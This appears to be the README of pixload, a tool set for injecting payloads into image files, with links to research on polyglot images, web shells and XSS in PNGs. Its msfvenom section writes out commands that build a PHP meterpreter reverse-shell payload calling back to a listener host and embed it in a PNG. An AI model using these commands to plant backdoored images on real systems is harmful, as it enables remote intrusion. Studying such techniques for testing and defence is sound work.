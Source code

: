 # pixload -- Image Payload Creating tools

## DESCRIPTION

Set of tools for ~~hiding backdoors~~ creating/injecting payload into images.

The following image types are currently supported: BMP, GIF, JPG, PNG, WebP.

#### about

Useful references for better understanding of `pixload` and its use-cases:

- [Bypassing CSP using polyglot JPEGs](https://portswigger.net/blog/bypassing-csp-using-polyglot-jpegs)

- [Hacking group using Polyglot images to hide malvertising attacks](https://web.archive.org/web/20190226193728/https://devcondetect.com/blog/2019/2/24/hacking-group-using-polyglot-images-to-hide-malvertsing-attacks)

- [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

- [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

- [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

If you want to encode a payload in such a way that the resulting binary blob is
both valid x86 shellcode and a valid image file, I recommend you to look
[here](https://web.archive.org/web/20201008001325/https://warroom.securestate.com/bmp-x86-polyglot/)
and
[here](https://github.com/rapid7/metasploit-framework/blob/master/modules/encoders/x86/bmp_polyglot.rb).

#### msfvenom

If you want to inject a metasploit payload, you have to do something like this:

1. Create metasploit payload (i.e. php).
```sh
$ msfvenom -p php/meterpreter_reverse_tcp \
	LHOST=192.168.0.1 LPORT=31337 -f raw 2>/dev/null > payload.php
```

2. Edit `payload.php` if needed.

3. Inject `payload.php` into the image (i.e. png).
```sh
$ pixload-png --payload "$(cat payload.php)" payload.png
```

## SETUP

